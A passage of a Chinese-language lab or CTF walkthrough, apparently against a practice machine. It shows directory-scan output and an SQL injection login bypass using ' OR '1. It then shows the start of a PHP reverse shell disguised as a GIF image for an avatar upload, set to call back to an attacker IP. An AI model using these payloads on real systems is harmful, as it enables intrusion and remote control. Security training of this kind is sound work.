 ```bash
/careers/             (Status: 403) [Size: 279]
/server-status/       (Status: 403) [Size: 279]
Progress: 143599 / 220561 (65.11%)[ERROR] Get "http://10.161.187.177/customized/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

## 漏洞发掘

### sql注入

又多扫出来一个目录`employee`，打开看一下：

![image-20240316191817121](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116218.png)

又一个登录界面，我擦。尝试登录发现失败了，应该是管理界面：

尝试万能密码，失败，弱密码也失败了。

再试试其他的方法，用户名似乎必须得是符合要求的，尝试在密码端进行注入：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116219.png" alt="image-20240316192523643" style="zoom:50%;" />

失败了，但是似乎有点作用：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116220.png" alt="image-20240316192544911" style="zoom:50%;" />

尝试一下其他的payload，山穷水尽的时候再试试sqlmap。

无意中试出来了一种：`' OR '1`

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116221.png" alt="image-20240316192758082" style="zoom:50%;" />

可以学习参考：https://github.com/payloadbox/sql-injection-payload-list

### 图片上传反弹shell

尝试寻找可以上传文件的地方：

![image-20240316193209601](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116222.png)

发现一个上传点，不过是上传头像的，尝试上传一下：

```bash
┌──(kali㉿kali)-[~/temp]
└─$ head reverseShell.jpg                                                            
GIF89a
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.161.181.188';  // You have changed this
  $port = 1234;  // And this
  $chunk_size = 1400;
```
